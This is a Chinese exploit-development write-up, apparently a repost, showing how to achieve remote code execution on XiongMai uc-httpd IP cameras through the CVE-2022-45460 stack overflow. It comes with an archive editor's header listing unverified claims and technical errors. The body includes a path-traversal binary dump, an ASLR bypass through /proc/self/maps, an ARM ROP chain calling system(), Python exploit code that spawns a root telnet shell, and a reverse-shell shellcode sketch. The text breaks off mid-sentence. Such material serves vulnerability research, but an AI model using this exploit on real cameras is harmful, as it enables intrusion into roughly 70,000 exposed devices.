





# 一次渗透过程中的CVE-2022-45460撞洞RCE

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：XiongMai uc-httpd / Sofia CVE-2022-45460
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：主45460路径栈溢出，2018-10088为初始研究目标、2017-7577为文件读取/ASLR泄漏链前提，勿混同三个CVE；树莓派chroot实验和真实设备执行权限/NX差异已主动承认，应保留且不能扩大7万暴露设备皆可利用；缺具体摄像头/固件、Sofia及libc哈希/修复范围，固定304偏移和gadgets仅样本
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 主45460路径栈溢出，2018-10088为初始研究目标、2017-7577为文件读取/ASLR泄漏链前提，勿混同三个CVE
2. 树莓派chroot实验和真实设备执行权限/NX差异已主动承认，应保留且不能扩大7万暴露设备皆可利用
3. 缺具体摄像头/固件、Sofia及libc哈希/修复范围，固定304偏移和gadgets仅样本
4. checksec NX disabled与内核运行页属性不同，动态库PIC不证明系统ASLR已开
5. Thumb不都16位，AAPCS返回不笼统R0-R3，32位寄存器填充5x8字节应与代码5x4核对
6. HTTP发送用b双反斜杠r双反斜杠n，实际字节非CRLF，完整报文缺Host且片段依赖未给函数
7. 反编译代码含缺参数sprintf和断片应标伪代码
8. 此处复用原连接只接stdin/stdout，stderr未接，所有函数+4跳序言不可泛化
9. 多处声称文末完整源码但仅公众号回复领取，无可用PoC/原作者URL，调试环境示意空块，需补来源而不将转载者当原研究者

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 Ti  TIPFactory情报工厂   2025-02-11 12:14  
  
   
  
在一次渗透中我们遇到了雄迈（XiongMai）的uc-httpd，这是一款被全球无数网络摄像机使用的轻量级Web服务器。根据Shodan的数据，大约有7万个该软件的实例在互联网上公开暴露。尽管这款软件存在严重的历史漏洞，但似乎没有现成的漏洞利用代码能够RCE，于是我决定自己构建一个。  
  
最初的计划是针对CVE-2018-10088这个漏洞展开攻击，它是一个缓冲区溢出漏洞，现有的利用代码只能使服务器崩溃，却无法实现RCE。我发现了新的攻击路径并构建了一个ROP链，通过Web请求发送ROP链，并利用同一连接作为命令执行的通道。毕竟，谁说一定要用反向Shell呢？  
## 漏洞分析  
  
在对任何漏洞进行利用之前，我们需要先了解这个漏洞。所以，首要任务是获取uc-http的源代码或编译后的二进制文件。不出所料，这款软件不是开源的。但幸运的是，存在CVE-2017-7577这个非常容易利用的路径遍历漏洞，它允许从受影响的uc-http服务器下载任意文件。通过/proc/self/exe  
，我们可以下载当前正在运行的可执行文件（通常名为**Sofia**  
）进行分析。  
  
我像往常一样使用file  
和checksec  
工具对目标二进制文件进行检查。从下面的结果可以看出，它是一个32位ARM架构的动态链接可执行文件。  
```
$ file Sofia
Sofia: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped

```  
```
$ checksec --file=Sofia
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE

```  
  
它没有启用重定位只读（RELRO），这意味着全局偏移表（GOT）是可写的；没有栈保护（stack canary）来检测栈溢出；并且禁用了不可执行（NX）保护，这使得可以在栈上执行Shellcode。此外，由于它不是位置无关可执行文件（PIE），所以二进制文件总是被加载到固定的地址。  
  
我使用Ghidra对二进制文件进行反编译。通过将触发现有漏洞利用代码时二进制文件的日志输出，与二进制文件中的字符串进行交叉引用，我找到了一个看起来像是HTTP调度器的函数（稍后会详细介绍具体的调试环境）。  
  
Sofia二进制文件的HTTP调度器反编译代码：  
```
int dispatcher(FILE *socket_stream, byte *request)
{
    char *substring;
    int iVarl;
    char *pcVar2;
    uint uVar5;
    size_t sVar3;
    size_t sVar4;
    byte *position;
    byte *__s1;
    byte *uri;
    char filepath [128];
    stat stat_struct;
    undefined4 uStack_68;
    int local_64;
    undefined4 local_60;
    undefined4 uStack_5c;
    undefined4 local_28;
    int local_24;
    memset (filepath, 0, 0x80);
    substring = strstr((char *)request, " /webcapture.jpg?");
    if (substring ==(char *)0x0) {
LAB_00337dc8:
LAB_00338108:
        substring = strstr ((char *)request, "command=");
        if (substring ==(char *)0x0){
            DAT_006e9324 =0xffffffff;
            if (socket_stream ==(FILE *)0x0 || request ==(byte *)0x0)
                goto LAB_0033838c;
            do {
                request = request + 1;
            } while (*request !=0x20);
            uVar5=0x20;
            if ((*(ushort *)(__ctype_b + 0x40) & 0x20) !=0) {
                do {
                    request = request + 1;
                    uVar5 =(uint)*request;
                } while ((*(ushort *) (uvar5 * 2+_ctype_b) & 0x 20) !=0);
            }
            while (uVar5 == 0x2f) {
                request = request + 1;
                uVar5 =(uint)*request;
            }

```  
  
在这个函数中，CVE-2018-10088漏洞很容易被发现。常见的strcpy  
函数被用于将HTTP请求体中的username  
和password  
参数复制到某些数据段中。  
```
substring = strtok((char *)0x0,"&");
strcpy(&DATA_USERNAME,substring + 9);
substring = strtok((char *)0x0,"&");
strcpy(&DATA_PASSWORD,substring + 9)

```  
  
通过检查这些数据段，我发现这些缓冲区的长度均为20字节。因此，超过20个字符的用户名和密码会导致相应的缓冲区溢出。我还发现这些缓冲区位于二进制文件的.bss  
数据段中，这对于劫持程序执行来说并不是一个理想的位置。不过，我注意到在该数据段的更下方有一些函数指针，可以利用这个溢出进行覆盖，理论上这可以实现程序执行流程的重定向。  
  
然而，在浏览调度器函数的其余部分时，我发现了另一个漏洞（后来我才知道它是CVE-2022-45460），这个漏洞似乎更符合我的目标。  
```
iVar1 = strcmp((char *)__s1,".lang");
if (iVar1 == 0) {
    sprintf(filepath,"%s/%s","/mnt/custom",&DAT_FILEPATH);
}
else {
    substring = strstr((char *)uri,"mns.cab");
    if (substring == (char *)0x0) {
        strstr((char *)uri,"logo/");
        sprintf(filepath,"%s/%s");
    }
    else {
        sprintf(filepath,"%s/%s","/usr/mobile",uri);
    }
}
iVar1 = stat(filepath,&stat_struct);
if (iVar1 != 0) {
    if ((filepath[0] != '\\0') && (iVar1 = atoi(filepath), 0 < iVar1)) {
        DAT_006e9324 = iVar1;
        sprintf((char *)&uStack_68,".%s","/index.htm");
        FUN_003376cc(socket_stream,&uStack_68,0);
        return 0;
    }
    write_response_header(socket_stream,0x68);
    fwrite("<html><head><title>404 File Not Found</title></head>\\n",1,0x35,socket_stream);
    fwrite("<body>The requested URL was not found on this server</body></html>\\n",1,0x43,socket_stream);
    return 0;
}

```  
  
这段代码显示，URI和文件路径使用sprintf  
函数进行拼接，同样没有进行任何边界检查。特别值得注意的是，用户控制的URI与/usr/mobile  
字符串拼接的分支。在这种情况下，溢出发生在一个我称之为filepath  
的栈变量上。栈溢出的危害很大，因为通常函数返回地址存储在栈上，这使得在溢出过程中可以覆盖返回地址，从而重定向程序的执行流程。而且由于没有栈保护来阻止漏洞利用，这个漏洞应该比较容易被利用。  
## 调试环境搭建  
  
在深入研究漏洞利用之前，我想搭建一个专门的测试环境用于调试。我的目标是避免依赖任何硬件设备。由于没有使用现有的漏洞利用代码，我也无法访问设备来部署调试器。  
  
所以，我首先利用前面提到的路径遍历漏洞转储文件系统。然后，我尝试使用chroot  
和QEMU的ARM系统模拟器来构建一个纯虚拟化环境。这个方法在一段时间内运行得很好，但最终在内存寻址方面出现了一些奇怪的行为。  
  
我手头还有一台树莓派，所以我决定试试看。我将收集到的根文件系统复制到树莓派上，并获取静态的gdbserver  
和bash  
（gdb  
需要用到）二进制文件。然后，我在树莓派的chroot  
环境中启动gdbserver  
。  
```
$ sudo mount --bind /proc/ rootfs/proc
mount: (hint) your fstab has been modified, but systemd still uses
       the old version; use 'systemctl daemon-reload' to reload.
pwn@raspberrypi:~ $ sudo chroot rootfs/ sh
# ls
bin        dev        gdbserver  linuxrc    proc       tmp        utils
boot       etc        lib        mnt        sbin       usr        var
# ./gdbserver :8888 Sofia
Process Sofia created; pid = 911
Listening on port 8888
Remote debugging from host 192.168.2.1, port 64996

```  
  
然后，我在自己的机器上使用gdb-multiarch  
连接到它。  
```
$ gdb-multiarch
GNU gdb (Debian 15.2-1+b1) 15.2
Copyright (C) 2024 Free Software Foundation, Inc.
(...)
gef➤ gef-remote 192.168.2.2 8888

```  
  
最终的调试环境大致如下：  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
  
这个环境允许在攻击者的机器上使用GEF（GDB Enhanced Features）设置断点，并远程调试树莓派上的目标程序，非常完美。  
## 触发漏洞  
  
搭建好上述环境后，就可以首次尝试触发已发现的漏洞了。这个过程和任何类似的二进制漏洞利用挑战没有太大区别。为了控制程序执行流程，我们首先需要确定输入在栈上覆盖的特定偏移量，这个偏移量最终会被弹出到程序计数器（PC）中。通过发送一个唯一的模式，并观察程序崩溃时哪些字节进入PC，我们可以精确找到这个偏移量。需要注意的是，始终要在URI末尾加上.mns.cab  
，以确保命中正确的代码路径。  
```
import sys
import socket

payload = b""
payload += 304 * b"A" + b"BBBB"

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect((sys.argv[1], int(sys.argv[2])))
    sock.send(b"GET /" + payload + b".mns.cab HTTP/1.1")
    sock.send(b"\\r\\n\\r\\n")

    print(sock.recv(1024))

```  
  
为了观察服务器端的情况，我在漏洞代码段之后的返回语句处设置了一个断点，就在第二次调用fwrite  
之后。如下所示，寄存器 r4 到 r10 从栈中弹出，然后是 PC。使用上面的 Python 脚本，这些寄存器被字符 A 填充，而 PC 被设置为 BBBB，这标志着控制流劫持的入口点。  
  
  
  
  
## 构建漏洞利用代码  
  
此时，有几点需要说明。虽然NX保护被禁用，意味着栈应该是可执行的，但我对此并不确定。在我的树莓派测试环境中，栈总是被标记为rw  
，而不是rwx  
。从栈中执行Shellcode的尝试失败了。因此，我（错误地）认为在真实设备上也是如此。我没有对此深入思考，而是继续计划构建ROP链。  
  
此外，虽然Sofia二进制文件本身没有启用PIE，但包含的库启用了PIE，因此我认为ASLR（地址空间布局随机化）也是启用的。在构建ROP链时，这意味着需要绕过ASLR，才能使用包含在库（如libc）中的gadgets。  
  
另一个需要牢记的重要点是，由于我们利用sprintf  
函数造成溢出，所以有效载荷中不能包含空字节，否则会被截断。此外，在进一步检查反编译代码后，我发现空格也会被去除。  
### 绕过ASLR  
  
由于Sofia二进制文件没有启用PIE，即使ASLR启用，它也总是被加载到相同的内存区域。然而，由于二进制文件映射在一个只占用地址空间低3字节的区域，每个地址的最高字节都包含一个空字节。这意味着，至少对于ROP链的入口点，不能使用Sofia二进制文件本身的gadgets。因此，我将重点放在包含的libc库上，但由于libc是使用PIE编译的，绕过ASLR就变得至关重要。  
  
正如你可能猜到的，我们之前的路径遍历漏洞再次发挥了作用，这次是用来绕过ASLR。这并没有什么神奇之处，只需转储/proc/self/maps  
来获取Sofia进程的内存映射，从而确定所有包含库的基地址。  
### ARM架构知识  
  
由于构建ROP链需要了解底层架构，我们首先需要掌握一些ARM架构的基本概念。如果你已经熟悉这部分内容，可以跳过这部分。  
  
ARM是一种RISC（精简指令集计算机）架构，与x86等复杂指令集相比，它使用一组更小的简单指令。ARM架构广泛应用于移动设备和嵌入式系统中。  
  
ARM架构的一个独特之处是Thumb指令集。Thumb指令集是最常用的32位ARM指令的一个子集，每个指令只有16位长。这些指令与它们的32位对应指令具有相同的效果，但可以使代码更加紧凑、高效。ARM处理器在执行过程中可以在ARM模式和Thumb模式之间切换。  
  
对于ROP链，ARM的调用约定尤为重要，因为它规定了函数参数的传递方式和控制流的管理方式。ARM有16个通用寄存器，从R0到R15。寄存器R0 - R3用于传递前四个函数参数，如果一个函数有超过四个参数，其余参数则放在栈上。R4 - R11用于在函数内部存储局部变量。函数的返回值存储在R0 - R3中。  
  
在ARM中，跳转指令主要有四种类型：B、BL、BX和BLX。这些指令控制程序流程，并且在保存返回地址或在ARM和Thumb模式之间切换的能力上有所不同。下表总结了它们的属性：  
  
<table><thead><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">指令</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">功能</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是否保存返回地址（LR）</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是否可以切换指令集</span></section></td></tr></thead><tbody><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">B</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">简单分支</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">否</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">否</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">BL</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">带链接的分支</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">否</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">BX</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">分支并切换指令集</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">否</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是（取决于目标地址）</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">BLX</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">带链接并切换指令集的分支</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是</span></section></td><td valign="top" style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: Optima-Regular, Optima, PingFangSC-light, PingFangTC-light, &#34;PingFang SC&#34;, Cambria, Cochin, Georgia, Times, &#34;Times New Roman&#34;, serif;font-size: 13px;padding: 0.5em 1em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">是（取决于目标地址）</span></section></td></tr></tbody></table>  
  
当保存返回地址时，意味着分支或函数调用后下一条指令的地址会被存储在链接寄存器（LR）中。这使得程序在分支或函数调用完成后能够返回到正确的位置。正如我们稍后将看到的，这在函数的序言和尾声中有所体现。在函数的序言中，LR寄存器通常会被压入栈中以保存返回地址，而在尾声中，它会被弹出回PC，以确保程序跳回到调用函数。  
### 寻找gadgets  
  
接下来谈谈构建ROP链。归根结底，这个过程就是寻找有用的gadgets，并将它们组合起来以实现特定的目标。我的第一次尝试是构建一个执行system("/bin/sh")  
的ROP链。  
  
为了实现这个目标，我需要找到能够将栈指针移动到R0（因为R0是传递第一个参数的寄存器），然后跳转到加载的libc库中的system  
函数的gadgets。这样，我就可以利用栈来放置我想要执行的命令。  
  
为了找到这些gadgets，广泛使用的Ropper工具非常有用。它专门用于识别和提取二进制文件中的ROP gadgets。  
  
  
  
  
  
经过一番搜索，我得到了以下解决方案：  
```
0x000175cc: pop {r3, pc}
0x000535e8: system
0x000368dc: mov r0, sp; blx r3

```  
  
第一个gadget将R3设置为一个可控的值，并跳转到下一个地址。第二个gadget（mov r0, sp; blx r3  
）将栈指针移动到R0（system  
函数的第一个参数），并跳转到R3，而我们之前已经将R3设置为system  
函数的地址。  
  
函数地址，例如system  
函数的地址，可以使用readelf -s  
命令来确定。不过，需要记住的是，我们需要将相应二进制文件或库的基地址添加到输出中看到的偏移量上。这样在构建ROP链时，才能确保使用正确的地址。  
```
$ readelf -s libc.so.0 | grep system
   659: 0003dfc0    80 FUNC    GLOBAL DEFAULT    7 svcerr_systemerr
   853: 000535e8   116 FUNC    WEAK   DEFAULT    7 system
   864: 000535e8   116 FUNC    GLOBAL DEFAULT    7 __libc_system

```  
  
正如前面所了解到的，有效载荷中不能包含任何空格。不过，我发现可以使用广为人知的 ${IFS}  
 策略轻松绕过这一限制 。  
  
把所有内容整合起来，我得到了一个大致如下的漏洞利用代码（完整源代码见文末）：  
```
def main():
    maps = fetch_maps()
    libc, libc_base = parse_maps(maps)

    payload = b""
    payload += 304 * b"A"
    payload += pack("<I", libc_base + GADGETS[libc][0])  # pop {r3, pc}
    payload += pack("<I", libc_base + GADGETS[libc][1])  # system
    payload += pack("<I", libc_base + GADGETS[libc][2])  # mov r0, sp; blx r3

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((HOST, PORT))
        sock.send(b"GET /" + payload + CMD.replace(b" ", b"${IFS}") + b";.mns.cab HTTP/1.1")
        sock.send(b"\\r\\n\\r\\n")

        print(sock.recv(1024))

```  
  
由于在没有远程交互方式的情况下，使用 /bin/sh  
 作为命令并没有太大用处，所以我使用 telnetd  
 在1337端口启动了一个本地Telnet服务器。这样我就可以连接并获取一个Shell  
```
kali@kali:~$ python exploit.py 192.168.2.2 80
connecting to 192.168.2.2:80
libc.so.0 found at 0xf7974000
b'HTTP/1.0 200 OK\\n'
kali@kali:~$ telnet 192.168.2.2 1337
Trying 192.168.2.2...
Connected to 192.168.2.2.
Escape character is '^]'.
# echo $USER
root
# ls
bin

```  
  
通过 telnetd  
 实现的简单漏洞利用及Shell获取。  
## 更进一步  
  
让我们回顾一下，由于缓冲区溢出而能够转移控制流的代码部分。可以看到，在返回语句之前，有两个 fwrite  
 调用，用于将响应写入到发送原始请求的客户端连接的 socket_stream  
 中。  
```
    write_response_header(socket_stream,0x68);
    fwrite("<html><head><title>404 File Not Found</title></head>\\n",1,0x35,socket_stream);
    fwrite("<body>The requested URL was not found on this server</body></html>\\n",1,0x43,socket_stream);
    return 0;

```  
  
这让我产生了以下两个假设：  
1. 1. 触发ROP链时，连接尚未关闭。  
  
1. 2. socket_stream  
 的引用很可能仍保存在某个寄存器中。  
  
这让我想起了CTF竞赛中的一些挑战，其中存在漏洞的二进制文件通过 socat  
 等工具在套接字上公开。在这些情况下，构造Shellcode以实现RCE的常见方法如下：  
```
fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); // 创建套接字
connect(fd, (struct sockaddr *) &serv_addr, 16); // 连接
dup2(fd, 0); // 将套接字文件描述符复制到标准输入（STDIN）
dup2(fd, 1); // 将套接字文件描述符复制到标准输出（STDOUT）
dup2(fd, 2); // 将套接字文件描述符复制到标准错误（STDERR）
execve("/bin/sh", 0, 0); // 执行 /bin/sh

```  
  
socket()  
 函数使用指定的域、类型和协议创建一个新的套接字。connect()  
 函数则用于建立与目标地址的连接。连接建立后，dup2()  
 函数被调用三次，将套接字文件描述符重定向到标准输入、标准输出和标准错误，有效地将Shell的输入输出绑定到该套接字上。最后，execve()  
 函数执行 /bin/sh  
，生成一个通过已建立连接进行通信的Shell。  
  
在上述情况下，我已经完成了这个策略的一半。我已经有了一个套接字/连接，所以剩下要做的就是调用 dup2  
 函数，并调用 system  
 函数，对吧？这样我就可以将已经建立的连接重新用作Shell。  
  
不过，由于我拥有的是 FILE *stream  
